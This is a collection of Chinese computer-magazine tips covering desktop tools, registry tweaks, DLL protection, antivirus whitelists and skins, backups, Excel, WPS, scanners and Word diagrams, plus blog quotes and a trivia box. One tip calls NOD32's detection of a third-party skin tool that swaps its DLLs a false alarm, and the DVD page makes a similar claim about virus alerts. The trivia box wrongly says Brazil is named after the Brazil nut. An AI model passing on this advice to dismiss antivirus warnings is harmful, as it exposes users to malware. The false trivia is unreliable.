- 第二步: 添加完成后，我们来调整一下。鼠标点到空白处，右键单击，选择“设置精灵快捷栏”，因为在顶端，右侧往往是QQ等软件，所以我们让它靠左一点，在“位置”选项卡下的“左右位移”中，拖动滑块，将工具条移动到靠左 (见图2)，右侧不要挡住QQ，以免互相干扰。
- 第三步: 在“图标尺寸”中拖动滑块，软件条开始加大，调整合适即可，在“风格→主题”中选择合适的主题。在“行为”下勾选“自动隐藏”，单击“确定”保存。

> 小提示：
> 特别注意，为了防止丢失软件设置，要在“常规”里勾选“保存设置到INI文件中”。

### 2.文件藏在左边

上面我们做好了软件快速启动的项目，很快就会满了。下面来把剩下的快捷方式如常用目录也发动起来，因为快快捷方式不支持多个启动，我们就来安装它的兄弟产品RocketDock (下载地址: http://work.newhua.com/cfan/200923/dock1.rar).

安装后它默认也在顶端，我们需要右键单击它，选择“程序设置”，在“位置→屏幕中的位置”中选择“左方” (见图3)，在“行为”中勾选“自动隐藏”，在“图标→尺寸”中拖动滑块调整大小占满整个左侧都可以，还可以在“风格”中指定显示的“主题”。单击“确定”保存。现在按照上面的方法一样，将常用文件夹的快捷方式拖动到上面即可，要区别图标，在图标上右键单击，选择“图标”设置即可。

## 懒汉也有笨办法 加个桌面好办事

如果你是一个足够懒的人，那么桌面再大也是混乱的，一个桌面肯定不够你折腾了。那就多弄几个桌面吧！买显示器？不用花钱，来个免费的就成！

- 第一步: 安装Dexpot (下载地址: http://work.newhua.com/cfan/200923/xnzm.zip) 后你就有了四个桌面了，不过我们一般用不了这么多，两个就够了。单击托盘区的软件图标，选择“设置”，在“选择桌面数目”里选择2，勾选“自动随Windows启动”后单击“应用”。

- 第二步: 现在来控制桌面的切换，切换到“控制→鼠标切换”下，勾选“激活鼠标切换” (见图4)，在下面勾选“下右”，单击“应用”。以后当鼠标移动到屏幕右下角时，就会自动切换下个虚拟桌面。在“常规”里勾选“自动随Windows启动”和“退出时保持Profile”，在“切换桌面”中勾选“定制桌面图标”和“定制背景”。
- 第三步: 右键单击图标，选择“配置桌面”，在“背景”里分别为两个桌面指定背景图片，单击“确定”保存。在第一个桌面下，将不常用的桌面文件移动到别的分区。将鼠标移动到最右下角，切换到第二个桌面，把文件都复制到这里来吧，以后想要文件、程序，切换到第二个桌面即可，随时调用。

> 小提示：
> 据小编测试，鼠标切换中，“延时、距离、灵敏度”分别设置在300、4、4时比较好用。另外，我们也可以设置快捷键切换虚拟桌面，在“设置→控制→热键”，展开切换桌面，选中“下一个桌面”，勾选Ctrl，然后点中空白键，按下一个键即可。不要选“桌面规则”。

## 任务多不用怕 好找就行

桌面的其他地方整洁了，就剩这下面的任务栏了。自动隐藏那太简单了，右键单击任务栏，选择“属性”，勾选“自动隐藏任务栏”就可以了。可窗口多时咋办呢？减少是不可能，好找不就行了吗？

启动注册表编辑器，依次展开[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced]分支。新建一个DWORD键值，命名为TaskbarGroupSize。

其值可以用来控制分组时想要的窗口数量。其中：0表示最早打开的程序排在前面，1表示最大的程序排在前面，2表示两个或以上相同程序的窗口组成一组，3表示三个或以上相同程序的窗口组成一组。关闭注册表编辑器，重新启动电脑，以后任务栏就会按照你的规则进行排列和分组了，找起来就方便了。

分组了，查找和调用还不太方便。我们再借助下Taskix (下载地址: http://work.newhua.com/cfan/200923/glqh.rar)。运行后在上面取消“单击桌面时显示桌面”的对钩 (否则单击窗口无法切换最小化)，单击“保持激活” (见图5)。以后切换窗口，将鼠标点下任务栏，直接滚动滚轮，窗口就可以来回转换了。

现在你的桌面四周都武装起来了，软件可以去屏幕上面找，常用目录可以去左边找，找原来的文件可以去右边的桌面找，滚动鼠标就能切换窗口，桌面还乱吗？

(浙江/周良兵)

> 南极属于哪个国家？
> A:南极是地球上唯一一个不属于任何一个国家的地方。
> 
> 巴西的名字怎么来的？
> A:巴西的名字来源于巴西胡桃，而不是巴西胡桃的名字起源于巴西。
> 
> 哪个城市的爱尔兰人更多？
> A:这个城市竟然不在爱尔兰！纽约市的爱尔兰人比都柏林的爱尔兰人还多，纽约市的意大利人比罗马的意大利人还多。

## 病毒肆虐 免费为电脑接种疫苗

现在不少病毒利用DLL文件作为伪装，伺机进行破坏活动，例如ws2_32.dll、usp10.dll这两个病毒就曾经折腾过不少朋友。其实，只要为DLL文件扣上金钟罩，此类烦恼就不会再有了。运行AntiFakeDLL.exe（下载地址：http://work.newhua.com/cfan/200923/dlmy.rar），在列表中选择对应DLL文件前的对钩，单击“确定”即可完成对该DLL文件的免疫。当有伪装成该DLL文件的病毒侵袭时将会直接拒绝，从而达到保护的目的（见图）。当然这个软件并没有包括所有的DLL文件免疫，遇到自己新发现的怎么办呢？用批处理就可以解决：例如现在想对ws2_32.dll进行免疫，新建一个记事本文件，输入以下内容：

```
reg add "hkey_local_machine\system\currentcontrolset\control\session manager\knowndlls" /v WS2_32 /d WS2_32.DLL /f
```

最后将该记事本文件另存为“ws2_32免疫.bat”文件（/v后面跟键值项的名称，/d后面跟的是值，/f在覆盖注册表操作时不弹出提示），双击运行即可。
(安徽/行者)

## “白”得有道理 瞧瞧瑞星的三种“白”

瑞星2010在对病毒的拦截和查杀方面，支持多种用户自定义白名单，用户可以根据自身需要，既使全力开启各种保护功能，也不影响正常工作。瑞星2010版有3种白名单，分别是文件监控和扫描白名单，木马行为防御和危险动作分析白名单，系统加固白名单。三种白名单机制相互独立，互不干涉，如果需要设置请注意区别，下面分别介绍三种白名单设置方法。

### 第一白：行为监控

木马行为防御（危险动作分析）的提示框有如下几种：瑞星默认出厂设置是家庭模式，此时的木马行为为防御以及危险动作分析提示框如图1所示，当怀疑木马行为防御或者危险动作分析判断有误的时候，或者用户自己编写的程序含有威胁动作时，可以按照如下操作暂时将文件加入到白名单：首先切换到专业模式下，打开瑞星软件，在左侧有模式切换，选择“专业模式”。然后再次运行刚才瑞星有提示的程序，当再次出现对话框的时候点击“信任”即可。

### 第二白：系统加固

当触犯系统加固的规则后，会有如图2所示的对话框出现，系统加固添加白名单的方法同样，点击“其他动作”中的“信任”即可。

### 第三白：文件监控

文件监控和扫描是基于特征码的监控和扫描，属于已知病毒，注意不要随便添加白名单。文件监控发现病毒时候的对话框样式如图3所示。打开瑞星软件，点击右上方的“设置”，然后在弹出的对话框中选择“高级设置→排除查杀目标”，点击下方的“添加”按钮即可把文件添加到文件监控和扫描白名单中。注意：该白名单只对文件监控和扫描有效，对于上面所述的系统加固和木马行为防御均无效。

以上三种白名单机制相互独立，一定不要搞混哦！另外如果把对应的文件加入到了白名单，那么它的行为就不会受到瑞星相关功能的监视了！
(瑞星安全工程师/唐威)

## 洗心革面 给杀软美容

杀毒软件在系统中扮演了冷面杀手的角色，这个杀手有些冷，严肃的脸色，让我们时常有点怕他们！不如让他们变变脸，那咱们就客串美容师，给它们美美容吧！

### 突破限制，秀出瑞星个性皮肤

瑞星自带了三套皮肤，单击“更改外观”就可以换，那如何拥有专属的个性皮肤呢？

- 第一步：启动系统到安全模式（PE系统也可），进入瑞星皮肤目录（默认C:\Program Files\Rising\Rav\Skin），复制其中一个皮肤文件夹（比如Skin2）并命名为Skin3，进入该目录找到并打开Skin.ini文件，将“chs=(简体)”和“cht=(繁体)”后面的文字修改为个性皮肤名称，保存该文件。
- 第二步：接下来用图片编辑软件对Skin3目录中的图片进行修改，当然也可替换其中的同名图片文件。需要说明的是，修改或者替换后的图片在尺寸大小上尽量和原图片相同。完毕后重启系统到正常模式，然后在瑞星的皮肤选择窗口中就可选择使用该皮肤了（见图1）。

> 小提示：
> 更换卡巴斯基的皮肤，除了可以按照瑞星的方法进行修改外，可以下载一些皮肤资源（http://www.kafan.cn/tags.php?/%BF%A8%B0%CD%CB%B9%BB%F9%C6%A4%B7%F4/），然后依次单击“设置→选项→程序外观”，勾选“使用可选皮肤”，单击“浏览”按钮定位到卡巴皮肤文件夹，最后“确定”退出，卡巴已换了新颜。

### 自作主张，金山毒霸也换肤

金山毒霸界面相关图片在“C:\Program Files\Kingsoft\Kingsoft Internet Security\lang\chs”目录下，这里大多数是金山的功能按钮图片，可用图片工具对其进行修改或者直接替换，也可用按钮制作软件制作或者在线制作。以在线制作为例：访问“http://button.logowu.com/index.aspx”，选择一种按钮样式（如水晶按钮），点击该样式进入编辑页面，进行风格、颜色、文字等设置。设置完成后，点击“生成按钮”会在网页右侧生成按钮，点击“下载此button”可将其保存到本地。最后直接替换其中的同名图片文件即可，打开金山毒霸主页面可以看到效果（见图2）。

> 小提示：
> 按钮的高度、宽度最好和毒霸的原按钮一样，文字可个性一些。如果图片格式不一致，用图片软件转换为同一格式即可。

### 偷梁换柱，NOD32也美容

很可惜，NOD32也不提供换肤功能！不过，通过研究发现NOD32的皮肤文件内嵌在eguilang.dll、eguiProduct.dll两个文件中。先将这两个文件拷贝出来，然后用ResHacker工具提取其中的图片，修改后再导入进来。不过，最简单的办法是用别人修改好的文件直接替换。

在安全模式下运行“精睿”的NOD32皮肤工具（下载地址：http://work.newhua.com/cfan/200923/pfbj.rar），选择其中一个（例如“奥运版”）进行安装，安装完成进入正常模式打开NOD32看到换肤成功。

> 小提示：
> NOD32会对“精睿”NOD32皮肤工具报毒，其实大可放心，这是NOD32病毒定义所致。
(文/老五)

## 会搭积木吗？去做个流程图吧

很多时候，制作流程图的大软件容易把人吓坏，其实小巧玲珑的Diagram Designer（下载地址：http://work.newhua.com/cfan/200923/zst.rar）就足够用了，连汉化包一起安装后，就随我一起来做做“请假流程图”吧。

- 第一步：从右侧图形中拖动一个椭圆框作为流程业务的起点，然后双击该框，输入要显示的文字“开始”，单击“确定”即可修改好文字。如果要改变文字的属性，就要再双击该框，然后在文字前加修饰命令（见图1），例如“\B020\开始”，命令分别代表黑体，大小，斜体。
- 第二步：接下来从右侧拖动一个箭头，接口对齐后，方向和长短肯定不合适，将鼠标点中它，出现四方向箭头时，我们可以移动到合适的地方，出现双方向箭头时，拖动它可以改变箭头的方向和长度。现在再拖动一个方框，按上面的方法将文字设置为“请假申请”，再通过鼠标拖动连接好（右键单击箭头在属性中可以修改箭头线条宽度）。
- 第三步：由于“请假天数”的不同需要不同级别的领导批准，所以这里要画出三个分支，从右侧拖出两个带“折线”的箭头和一条直箭头，通过拖动组合成分（见图2），然后分别双击箭头，输入箭头上的文字（例如，一天，两到三天，三天以上）。再拖动几个椭圆形和箭头，分别组成不同天数下的流程。

> 小提示：对于重复的部分，可以简单复制，按住Ctrl，拖动它到需要的位置即可。带折线的箭头有时不能满足需求，我们可以拖动一个直线和一个直箭头，让他们的连接点（小红叉）接在一起，然后按CTRL+L将两部分进行组合连接，拖动绿色的连接点就可以随意改变拐点了。

- 第四步：最后不同的审批方式都要到人事部汇总，所以三块要再汇集起来，拖动一个椭圆，然后用三个箭头连接，最后再加一个“结束”。如果要美化下，可以将其中的关键部分加颜色，右键单击该框，选择“属性”，单击“填充颜色”后的色块，选择一个颜色，“确定”后颜色就加上了。单击“文件→导出当前页”就可以保存为图片格式了。

> 小提示：保存页面空白较多时，可以依次单击“图表→页面属性”修改画板高和宽来去掉多余部分。另外，还有很多现成的模板http://d16912502.u227.surftown.dk/DiagramDesigner/Templates/供下载后读入。

（浙江/徐怀平）

## 远离系统重装烦恼 兔子备份工具显身手

又要重装系统了——这已经是小张这个月的第三次了。系统装得轻车熟路，可只见他每次装完系统都要折腾半天，那些日常必需的软件、工具等也都需要重新装一遍，实在太费时间。同事一看，立马给指了一个好招，用超级兔子做备份啊！小张恍然大悟。

### 驱动备份
打开超级兔子，依次点击“工具→驱动天使→驱动管理→备份驱动”，系统会列出当前电脑上所安装的所有驱动程序，可以选择全部，也可以选择单独备份某一项驱动。点击“立即备份”，选择保存路径，驱动程序就可以顺利备份下来了。同样，点击“还原驱动”，选择当初保存的路径后，也可以快速将驱动还原。

> 小提示：备份的驱动文件还可以拷贝到U盘上保存，就算系统彻底崩溃，重装系统后只要安装超级兔子驱动天使，然后选择相应的路径就可以顺利还原了。

### 注册表备份
打开超级兔子，依次点击“工具→系统备份”，第一项“备份系统”中，首先为此次备份命名，然后选择路径，点击“下一步”，就可以选择要备份的内容。这里我们勾选“注册表”、“只生成压缩格式的注册表备份”，再点击“下一步”，备份就完成了。同样，点击“还原系统”，选择当初保存的路径后，也可以快速将注册表还原。如果在“选项”里勾选“每天第一次开机自动保存注册表”，超级兔子系统备份就可以在开机时自动保存最多5天的注册表，以便应急时使用。和驱动备份一样，注册表备份后也可以拷贝到U盘上保存，以便不时之需。

### 系统备份
除了驱动程序、注册表外，还有一些数据对我们来说也非常重要，例如IE收藏夹、IE Cookie、我的文档等。对这些数据做好备份也是很有必要的。同样在“备份系统”选项中，为备份命名以及选择路径，点击“下一步”，在选择备份内容时勾选所需要的选项（见图），再点击“下一步”，备份就完成了。

> 小提示：驱动程序、注册表和其他内容在“系统备份”中可以一起备份，但很多时候各个项目备份所需的频率是不同的，例如驱动程序通常只要备份一次就够了，而收藏夹可能一周就需要备份一次，因此备份时还是灵活选择所需要的项目吧，避免浪费系统的存储空间。

## 名博论语

### 学生必须学会游泳自救？

建议从中小学生就开始进行游泳课的训练。会不会游泳应该作为毕业标准。当然，我到现在还没有学会游泳，必须也要去学习。需要取代的是什么课呢？要取消思想政治课。我们上了十年的思想政治课，我们学到了什么？社会风气依然很差，这说明思想政治课从教育的角度来讲是完全失败的。

> ——韩寒看湖北荆州的大学生救人事件

### 最擅长“打飞机”的部门

今年，发改委宣布四次油料提价，每次都是当天就有国外飞机坠毁。昨天晚上，发改委再次宣布柴油每吨提价480元，结果晚上肯尼亚果然又掉飞机了……

> ——李承鹏的惊人发现

### 刘翔广州“遇冷”说明什么

中国自古以来就很难有失败的英雄，要不是十全十美的英雄，要么便是一无是处的狗熊，批倒批臭，这种国人歇斯底里的传统变态情节曾经扼杀了多少失败英雄的复兴之路？如果要想真正实现中华民族的伟大复兴！我想，那么就先从善待刘翔这样的失败英雄开始吧！

> ——鲁国平的博客

### 清华和美国顶尖大学差别有多大

调查发现，清华学生在“广博的知识”方面收获显著低于美国大学生，在专业知识和技能领域没有差异，在能力（表达、合作及解决问题的能力）和自我概念的发展方面，也不存在差异；在个人人生观和价值观的建立上，清华高年级学生的水平略高于美国学生。

> ——铁锋的博客

### 俞敏洪：学会如何停下来

有的名车之所以开得快，那是因为刹车系统好。我学会滑雪这么多年，到今天为止从来没有摔伤过，是因为我知道怎么停下来。人有贪婪，但关键是要有度，要学会如何停下来。

## DVD 光盘说明页

## 光盘使用提示

- 光盘放入光驱后，光盘程序将自动运行，播放片头动画。动画播放结束后，进入程序主界面。
- 如果想跳过动画，可以在画面中任意处单击鼠标。
- 如果不想让光盘程序直接运行，可以在放入光盘的同时按<Shift>键不放，以跳过动画的播放。
- 在资源管理器中可以直接浏览光盘，也可以双击Start.exe文件重新运行光盘程序。
- 在主界面上点击相应的主题按钮即可进入下一级界面或调用其他程序。
- 在主界面上点击右下角的声音按钮可关闭或打开背景音乐。点击退出按钮可关闭光盘程序。
- 在下一级界面中，都会有一个返回按钮，点击即可返回到上一级界面中。
- 光盘中的PDF格式电子书，需要安装好光盘内提供的PDF阅读软件，否则无法正常使用。
- 为了加快PDF文件的阅读速度，读者也可以将本光盘的PDF电子书文件，拷贝到硬盘上进行阅读。
- 光盘中的文件，都经过多种防病毒软件检查和查杀，保证读者使用的绝对安全。但因为杀毒软件很多，版本也复杂，某些杀毒软件误报率也很高，所以如果杀毒软件报告有病毒，有可能是误报。

## 财务数据一览无余

小李要分析公司2008年各项费用的计划支出和实际支出之间的差异，以便为2009年的成本预测提供依据。如何通过Excel 2007完成这项工作呢？

本文将解决以下这些问题：
1. 在饼图中标识出各项费用支出所占比例
2. 赋予呆板的图表更强的感染力
3. 在图表中突出显示企业在员工培训方面的支出情况
4. 在一个图表中反映计划支出与实际支出之间的差异
5. 图表与数据不在同一表中的处理
6. 在扩展工作表中数据的同时自动更新图表

小李已经对2008年中各类费用的计划支出与实际支出做了统计，并计算了两者之间的差异。为了更加直观地说明实际支出中各类费用所占的比例，小李决定用饼图来展示（见图1）。



▲通过饼图分析实际支出中各项费用所占比例

## 四步制出“大饼”图

第一步：按住Ctrl键选中A2:A6和C2:C6两个单元格区域，在“插入”选项卡的“图表”选项组中，打开“饼图”下拉列表，选择“二维饼图”区域中的“饼图”（见图2）。



▲插入饼图

第二步：将图表移动至适当位置，在“格式”上下文选项卡的“图表样式”选项组中，单击“其他”按钮，打开“图表样式”库，为图表选择一种预置的图表样式。

第三步：单击“图表布局”选项组中的“其他”按钮，打开“图表布局”库，选择一种预置的图表布局，以便在图表中看到每个扇区所代表的费用类别，及其所占的比例。

第四步：为了使图表中的数据更加清晰，将数据标签拖至扇区外侧，此时Excel将自动为其添加引导线，用同样的方法将其他类别的数据标签拖至扇区外侧（见图3）。

## 再好的标题也要美化

通过Excel 2007内置的图表样式和布局修饰图表，真是既快捷又方便。为了进一步增强图表的显示效果，小李希望对标题进行进一步的修饰，以使其更具感染力。

选中图表标题，在“格式”上下文选项卡的“艺术字样式”选项组中，单击“其他”按钮，打开“艺术字样式”库，将光标悬浮于每个预置的艺术字样式上，可以在图表中预览到应用该样式后的效果。小李没有在预置的艺术字样式中找到满意的艺术字效果，因此他决定自行设置所需的样式。单击“艺术字样式”选项组中的“文本效果→发光”，在打开的级联菜单中选择一种发光效果。按照类似的方法，为文本选择一种映像效果。设置完成后的图表标题（见图4）。



▲将数据标签拖至扇区外侧



▲设置文本效果后的图表标题



## 突出显示关键的费用类别

虽然现在可以从饼图中看到每类费用所占的比例了，但是小李觉得重点不够突出。如何才能突出显示公司在“员工培训”方面的费用支出情况呢？假设将饼图比作表盘，由于人们比较习惯以12点所在的位置为起点，沿顺时针方向浏览数据，因此应该尽量将重要数据所在扇区置于12点位置处。

旋转扇区所在位置的方法非常简单，单击饼图的任意一个扇区，按Ctrl+1，打开“设置数据点格式”对话框，拖动“第一扇区起始角度”选项区域中的滑块，此时可以实时地观察图表扇区位置的变化，旋转到满意的角度即可。除了上述方法之外，还可以将重要数据所在扇区从饼图中分离，达到突出显示的目的。例如，当需要强调“员工培训”的支出费用时，只需向远离圆心的位置拖动该扇区即可。

## 分析计划支出和实际支出之间的差异

小李通过2008年计划支出和实际支出的对比分析，利用组合图表创建了“费用支出对比图”（见图5）。从中可以一目了然地看出2008年各类费用的计划支出和实际支出的对比情况，以及二者差值百分比的波动情况等信息。创建“费用支出对比图”的具体操作步骤如下。


▲用来对“计划支出”和“实际支出”进行对比分析的组合图表

第一步：按住Ctrl键同时，选中“费用支出分析”工作表中的A2:C6和E2:E6单元格区域，然后按F11键，在名为Chart1的工作表中插入图表。

第二步：由于“差异百分比”的数据较“计划支出”和“实际支出”而言微乎其微，因此不能在图表中看到。如果要显示“差异百分比”的数据，首先需要在“布局”选项卡下的“当前所选内容”选项组中，打开“图表元素”下拉列表，选择“系列‘差异百分比’”。

第三步：单击“当前所选内容”选项组中的“设置所选内容格式”按钮，打开“设置数据系列格式”对话框，选中“系列绘制在”选项区域中的“次坐标轴”单选按钮。

第四步：关闭对话框，此时图表右侧新增加了一个坐标轴，这样就可以在图表中看到“差异百分比”数据系列了。

第五步：选中图表中的“差异百分比”数据序列，然后在“设计”上下文选项卡的“类型”选项组中，单击“更改图表类型”按钮，打开“更改图表类型”对话框，选择“折线图”选项区域中的“带数据标记的折线图”即可。

## 自定义图表布局，提高图表可读性

用于对比计划支出与实际支出之间差异的图表终于创建完成了，为了提高图表的可读性，小李希望在图表上方添加标题，并且将计划支出、实际支出、差异百分比各项数据显示在图表下方。可以按照如下步骤进行操作。

第一步：选中图表，在“布局”上下文选项卡的“标签”选项组中，打开“图表标题”下拉列表，执行“图表上方”命令，添加一个默认的图表标题，然后将其更改为“计划支出与实际支出对比图”即可。

第二步：在“布局”上下文选项卡的“标签”选项组中，打开“数据表”下拉列表，执行“显示数据表”命令，即可将图表数据源显示在图表下方。

## 实现图表的自动扩展

公司由于业务的扩展，需要增加其他的费用支出类别时，如何在扩展工作表中数据的同时，实现图表的自动更新呢？

要实现图表的自动扩展，可以将图表的数据区域转换为表，随着表的自动扩展，图表也会自动更新。具体操作步骤如下。

第一步：选中“费用支出分析”表所在的A2:E6单元格区域，在“开始”选项卡的“样式”选项组中，打开“套用表格格式”下拉列表，选择一种预置的表格样式。

第二步：在随即打开的“套用表格式”对话框中，会自动选中“表包含标题”复选框，“确定”即可。

对图表的数据源套用表格式之后，当在表格中再添加数据时，随着表的自动扩展，以此表为数据源的图表也会随之自动更新。

## 给WPS 2009加装翻译词典

WPS 2009个人版正式推出，新版有许多亮点。首先是加大了和网络的融合，免费提供给用户G级的空间，存储文件再也不用拿闪盘了，是办公软件一种新的形式；其次，插件平台更加强大，个人版安装时集成了“多重剪贴板”、“输出PDF文件”插件，安装时可选“表格样式”插件，在插件平台上可以直接安装“PDF阅读”插件，在WPS演示的插件平台上可以直接安装“WPS演示演播”插件。

这些功能打开工具栏上相应按钮就可以使用。WPS官网上还有许多有实用价值的插件可以下载来使用。

可以通过单击工具栏上的“插件”按钮，打开“插件平台”对话框，单击“推荐插件”选项卡中的“浏览全部插件”按钮，或者直接打开官网(http://www.wps.cn)，单击“插件”菜单，就可以看到官方最新的插件。

举个例子：平时工作中偶尔要用到查单词是什么意思，或者把几个词语翻译成英语。这该怎么办呢？我还要下载一个翻译软件吗？

有了WPS 2009，完全可以轻松完成这样的任务，因为官方为我们提供了这样的插件，下面介绍一下具体的操作方法。

- 第一步：打开官网插件平台，单击“用途”中的“字典”，点击右侧查单词的“立即下载”。
第二步：IE 8.0会出现提示，单击“允许”按钮。

WPS会自动打开插件平台的“插件下载”选项卡，提示下载和安装进度。

- 第三步：安装完成后，单击工具栏上的“查单词”工具按钮，任务窗格中出现查单词的相关内容，鼠标单击“请输入查询内容”处，输入要查询的内容，单击搜索按钮就可以得到结果了。

WPS的插件可以解决许多实际工作中遇到的问题，使困难的工作变得很轻松。WPS插件平台上还有许多很好很实用的插件，如提高效率的“文件优化精灵”、增强的搜索“查资料”等。如果官网的插件平台上没有你要的插件怎么办呢？我们还可以在WPS论坛的插件区发帖，提出自己的建议。

（东北林子）

## 使用WPS文字制作精美宣传页

如何制作出一份美观又富有视觉冲击力的宣传页呢？如图所示是一份制作完成的影音产品宣传页。你想过使用WPS文字也可以将它做出来吗？当然，必要的素材不可少，这里面一共涉及到三幅图片，剩下的元素都使用WPS来完成。



- 1. 利用表格分块
仔细分析这幅宣传页在主要部分突出的是产品的界面，在上下部分分别用大字体展现主要特点并配以辅助图示，所以将整个页面分为上中下三部分，并根据格局分为两列，也就是插入三行两列的表格，并将页面改为横板。
产品的特点是必须让用户知道的，所以其亮点一定要大而醒目，就如同报纸的标题，不要吝啬位置和题号，将它们放在最醒目的左上角集中展示，说明性的文字则可以小一些。
在第一个单元格中输入文字部分，调整好字体和字号。
文字排版的原则是突出重点，错落有致。文字字体应该有变化，但是不要过于频繁。设计稿的文字选用了细黑体和微软雅黑的字体，字号较大。说明性文字作为从属内容，采用宋体小号。
行间距尽量使用段前段后距设置，不要使用回车键避免以后调整布局时产生不便。
在对一些小参数展示的时候，不妨略微增大字体。这个例子就很好地采用了这一点。上方右侧的格式列表采用了四行的表格，并且在单元格中插入了新的表格。将背景改为玫瑰色，增大字号并将边框设置为白色。
将下方的辅助图片加入表格第三行，中间部分撑大，就有了一个大体的样子。插入的图片默认为“嵌入式”。

- 2. 利用形状来增加装饰元素
右下部分有一些装饰性的花纹。对于此类元素的添加以不破坏整体风格为准。
这个部分还有三个大小渐变的圆形装饰。采用插入形状的方法插入一个圆形。注意按住Shift键可以画出正圆。
下面要加入主题图片了，将光标插在任何一个位置后插入主题图，完后将其改换叠放次序为“置于文字下方”并使用鼠标精确调整图片位置和表格位置。最后将所有出现的表格边框都设置为无色，我们的宣传页就大功告成了。

## WPS 2009 强力文件工具一二三四

WPS 2009个人版推出，不但延续了体积小、功能全、速度快的优点，还博采众家之长，在文件支持与存储上进行了大胆创新，给我们带来新的体验。

与信息安全提供了强有力的支持与保障。

## 文件查找、打开更方便

在老版本的WPS中，如果想要查看和继续以前的操作，都是从列出的“最近所用文件”中打开相应的文件。如果我们要打开的文件不在“最近所用文件”列表中怎么办？WPS 2009新增的“首页”和“标星”功能可实现文件一点即开。
标星方法：在文件中右击鼠标，在鼠标右键菜单中选择“标星”即可。
当重要文件标星后，不论其保存路径有多深，只要在“首页”中点击标星按钮，所有的标星文件即可直接列出，你就可以快速打开标星文件。

## 开放的插件平台

如果有WPS不能打开的文档怎么办呢？在WPS中有众多个性化和定制化的服务都可以通过插件来实现，在WPS 2009中不但可以自由选择安装官方提供的插件，也可以根据自己的爱好和需求来编写插件供自己及其他人使用。在WPS中点击“工具→插件平台”，即可打开“插件平台”对话框，在“插件平台”对话框中的“插件列表”标签下，点击“安装本地插件”，即可安装自己编写的插件了。这样就能让WPS为我们提供更多的文档支持功能。

## UOF 格式文件的读写和保存

UOF是《中文办公软件文档格式规范》国家标准，UOF标准打破了以OOXML一统XML文档格式的格局，还真正掌握文档信息交换的控制权。由于早期WPS与UOF标准的制定存在时间的差异，并不支持UOF的读写，而WPS 2009不但支持UOF格式文件的读写，还能输出UOF格式，这对UOF格式的推广、普及及信息安全提供了强有力的支持与保障。

## 网络办公自由化

WPS 2009适时增加了“网络文件”功能，它可以方便用户实现在线储存，轻松上传和在线共享劳动成果。只要在“另存为”对话框中点击“网络文件”按钮，登录自己的在线储存空间，将文件上传即可。
小提示：
WPS 2009在文件支持方面还有很多亮点，比如一键输出PDF、无障碍阅读PDF文档、个性化模板等，体现了它的网络办公新理念。

（文/大懒虫）

## 一体机扫描仪常见故障解决

一体机的扫描仪功能，虽然没有打印、传真那么受重用，可也别小瞧了它。一份急用的文件要变成电子文档，没有它你可能会显得束手无策。好用是好用，可是扫描仪一旦罢工，你就只有急的份了！当你急于救驾又没有人时，不妨先自行进行施救吧！

## 检查连接，重装驱动

首先检查一下电源连接是否正常；其次，重点检查数据线的连接。如果还是不行，可以找一根并口线，排除线缆造成故障的可能性。
如果连接线没什么问题，重新安装驱动程序。

## 别怕动手，大胆拆机排故障

如果一体机打印和传真功能正常，而出现无法扫描或者扫描的图像模糊不清。这时候就要考虑检查扫描组件了。首先，打开一体机机壳（惠普系列机为例），用擦拭液晶显示器的软布擦拭灯管、反光镜及六棱镜。仔细观察扫描仪的灯管两侧，看看灯管两端是否有发黑现象（见图1）。如有，需要到电子市场或者惠普一体机售后购买一个相同型号灯管换上即可。但是，在拆机过程中，大家千万要小心谨慎，不能人为造成易碎元件故障。

如果扫描的图像出现斑点，就要对扫描设备进行清理了。正确清理方法是：断开设备的电源，打开文件存取门，仔细检查位于文件存取门内侧的白色长条，用干棉签或者蘸极少量的酒精进行擦拭。千万注意不要让酒精滴落到设备内部的部件上，以免损坏设备。接下来，检查并清洁白色长条对面的玻璃长条。最后，对扫描仪内的各个滚轴进行清洁，使用干燥的无绒布，横向完全清除滚轴、压脚和压板上的脏污。待水迹完全干燥之后关闭文件存取门即可。

## 正确使用，提前预防故障

除了掌握一些简单故障排除方法之外，平时的正确使用及维护是关键所在。除了清洁维护一体机整机外，还应该特别注意保持扫描仪光学成像部分的清洁，因为一体机的光学成像部分设计最为精密，光学镜头或反射镜头的位置稍有变动就会影响CCD成像的质量，甚至可能使CCD接收不到图像信号。因此，工作环境的清洁以及光学成像部分是预防故障的关键。平时最好用防尘罩把一体机遮盖起来，防止灰尘侵袭。

（张树忠）

## 经典示例：Word物理做图一点通

我是一名初中物理老师，经常需要用Word制作物理试卷。化学老师经常哀叹试卷难做，但再难做也没有我们物理试卷难做。本人经过多年的努力，掌握了大量Word做图技巧，下面就用3个典型的例子，来讲解Word做图中的高级技巧，基本上应用里面涉及的方法，大部分Word做图都能迎刃而解了。

### 为什么用Word做图

很多朋友估计都会问，有很多很好的做图软件，为什么要用Word来做图呢，下面就是我的理由：方便：试卷用Word制作，做图用Word也就很方便了。Word做图入门也非常容易，做简单的图也很方便。不过做一些复杂和特殊的图，需要技巧，我喜欢这样的挑战。引用：有时候题目稍微变化一下，图也需要变化一下，在Word中引用以前用Word做的图，修改调整起来当然很方便。精确：Word中做图可以非常精确，比如以前多有“在Word中精确绘制抛物线”这类文章，看了下面的例子，你会更明白的。缩放：Word中绘制出来的图形可放大可缩小，不失真，也特别适合打印大型文档或宣传海报，即所谓的矢量图，而专业的矢量图软件（如CorelDraw，Illustrator等）很难短时间掌握。

> > 小提示：物理做图基本技巧可参考http://www.sky158.net/index.files/Page412.html。也可以使用Word插件——全排物理画板（http://www.skycn.com/soft/17646.html）。另外，平时注意学习和积累，就可以让你又快又好地做出物理示意图。

### 填充的应用

这个是示意物理中滚动的图，效果如图1所示。图中的圆弧部分是制图难点，它不是逐笔画出来的，而是填充出来的。这里只介绍一下图1中的圆弧是如何精确绘制的，过程如图2所示。





- 1. 第1步：在“自选图形”下选择“基本形状→空心弧”。在Word编辑区中双击绘出一段圆弧，它的长度默认为1/2圆周。右击圆弧，选择“设置自选图形格式”，在“大小”选项卡下勾选“锁定纵横比”。注意，按住鼠标左键并拖动来绘制圆弧，得到的图形不一定是标准的1/2圆周。“锁定纵横比”是为了避免放大或缩小后的宽、高比失真——“精确”正是体现在这些细节中。
- 2. 第2步：拖动黄色控制点，直到表示边界的虚线与左上角的控制点对齐。此时，圆弧长度恰好是1/4圆周。
- 3. 第3步：拖动黄色控制点，使圆弧的内半径接近外半径。
- 4. 第4步：按住Ctrl键的同时按下鼠标左键，拖动圆弧到一定位置后松开左键，将圆弧复制一份出来。
